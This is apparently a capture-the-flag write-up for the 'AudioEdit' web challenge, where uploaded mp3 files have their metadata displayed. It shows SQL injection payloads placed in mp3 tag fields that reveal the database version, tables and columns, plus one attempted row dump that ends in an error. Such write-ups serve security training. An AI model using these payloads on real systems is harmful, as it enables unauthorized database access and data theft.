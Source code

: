 ```yaml
---
layout: writeup
title: 'AudioEdit'
level:
difficulty:
points: 200
categories: [web]
tags: []
flag:
---
```

**Challenge**
I made a cool site to edit audio files. [Can you exploit it?][1]

**Solution**
The website lets you upload mp3 files and then displays some metadata
and plays it for you.

It has to be a valid mp3 file

We try if we can put SQL injection in the exifdata and indeed we can:
(exiftool doesn't do exifdata updates for mp3 so we used easytag)

    foo', (SELECT VERSION())) -- -
    > Author: foo
    > Title: 5.5.49-0ubuntu0.14.04.1

    foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -
    > Author: foo
    > Title: audioedit

    foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='audioedit')) -- -
    > Author: foo
    > Title: id,file,author,title

    foo', (SELECT GROUP_CONCAT(CONCAT(id, ':', file, ':' , author, ':' , title )) FROM audioedit)) -- -
    > error inserting into database



[1]: http://107.170.122.6/audioedit/
